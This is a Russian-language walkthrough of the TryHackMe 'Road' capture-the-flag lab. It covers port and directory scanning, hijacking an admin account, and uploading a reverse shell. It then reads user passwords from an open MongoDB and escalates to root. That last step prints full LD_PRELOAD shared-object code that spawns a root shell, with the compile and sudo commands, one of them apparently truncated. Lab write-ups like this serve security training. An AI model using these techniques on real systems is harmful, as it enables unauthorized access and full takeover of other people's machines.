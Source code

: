 # Road

:white_check_mark:  [**Sockets**](#sockets)

:white_check_mark: [**Mongodb**](#mongodb)

:white_check_mark: [**LD_PRELOAD**](#ld_preload)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV road.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/1.png)

Поиск директорий:
```
gobuster dir -u http://road.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://road.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/07 22:16:09 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 305] [--> http://road.thm/assets/]
/v2                   (Status: 301) [Size: 301] [--> http://road.thm/v2/]
```
## Getting shell

Перейдем в директорию **"v2"**. Регистрируем нового пользователя

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/3.png)

Меняем пароль для пользователя admin. И заходит в его аккаунт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/4.png)

Загружаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/5.png)

Видим, что обратная оболочка расположена в **/v2/profileimages/**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/6.png)

Запускаем слушатель и получаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/7.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/8.png)

## Getting users credentials

<a name="sockets"></a>

Перечислим все запущенные сетевые службы:
```
ss -at
```
**ss** - утилита для исследования сокетов  
**a** - отображение всех сокетов  
**t** - отображение TCP сокетов

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/9.png)

<a name="mongodb"></a>

На порту 27017 находится база данных mongo. Подключимся к ней.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/10.png)

Просмотрим базу на предмет паролей пользователей.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/11.png)

## Privilege escalation

<a name="ld_preload"></a>

Нашли пароль от пользователя webdevelopers, подключимся по ssh. Посмотри права sudo у этого пользователя.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/12.png)

Видим строку:
```
env_keep+=LD_PRELOAD
```

Воспользуемся этой [статьей](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

Создаем файл shell.c

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/13.png)

Записываем в него код:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() 
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/14.png)

Компилируем и запускаем файл.
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles

sudo LD_PRELOAD=/tmp/shell.so /usr/bin/
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/15.png)

Получаем root.